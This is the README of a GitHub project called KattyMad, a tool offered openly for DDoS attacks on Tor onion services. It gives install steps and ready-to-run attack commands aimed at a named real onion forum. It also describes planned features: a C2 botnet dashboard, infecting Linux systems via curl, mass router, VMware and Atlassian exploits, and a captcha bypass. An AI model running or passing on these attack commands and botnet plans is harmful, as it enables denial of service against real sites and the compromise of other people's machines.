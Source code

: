 # Kattymad
# v1.1
KattyMad is a tool designed to install and perform DDoS attacks over the onion protocol.  <br>
I started from a fork of "KARMA" but it was literally unmaintaned and was using old cookies concept and also network stack was performing worstly than expected.
So i started again and this time i found very useful the MHDDoS project. <br>
Im constantly editing this project because the aim is to create mass environments that can easily takeover onion networks.
Please, read the [TODO](TODO.txt) and help me.

(NB. Credits binary code is just a reverse from ascii common text)<br>
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/katty_1.png)


## Usage on Linux ##
Requirements:
You must use Python 3.9 or higher

Step:
```
git clone https://github.com/electr0lulz/kattymad
cd kattymad
sudo ./setup.sh
```
## Example
```
Use DDoS Panel   : python3 kitty.py
Use command line : python3 kitty.py <method> <target> <thread> <time>
```

## Pratical Usage on onion services ##
ATM: best methods are stomp+cookies+slow (and connections) i will include here a script call ddos.sh that require only URL+TIMING args.
```
syntax:
python3 katty.py cookie $1 0 256 proxy.txt $PORT $2
example:
python3 katty.py stomp http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 0 64 proxy.txt 256 1800 debug
or
./ddos http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 60 ##### it means 60 seconds ddos on url of cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion.
```
Where $PORT is a variable editable into your ddos.sh file, usually 80 is the best option. $1 is the url, and $2 is the timing.
About now it's automatically setted up on 256 threads. (connections don't require anything else)
CryptBB is just an onion example. Use your favorite onion url.

Soon i will remove all unused methods from previous forked version, also, you will be able to access to the C2C management where you can add all your katty servers and start attacks with a everyshell together.
Also will spawn a very nice WebDashboard (now coded in PHP, but soon will be ported in golang) where you can manage your C2C, your bots without needs to open shell, have a very easy way to spread your commands with just a "DataDispatch" or to infect other linux-based systems with just a curl, and a web-exploitter based on realtek, dlink and other shitty-router platform (including some mass-exploit made by me for vmware and atlassian) allowing you to have a botnet very quickly.
Very soon multitor version and captcha bypass will be added, even if we are found a lot of problems in solving the dread-based-captcha.
##

## Dashboard Preview
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/login_katty.png)
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/kattymain.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/users.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/web_manager.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/terminal_commander.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/katty_servers.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/autoexploit.png)

## NB.
I wish remember to you all, especially to people who suffered paranoia attacks: this is all opensource code. You can read every fucking-single line and see that there's no encoded parameters. So no honeypot, no rat, no fucking bullshit. See you around. 
[Electr0lulz](https://github.com/electr0lulz/)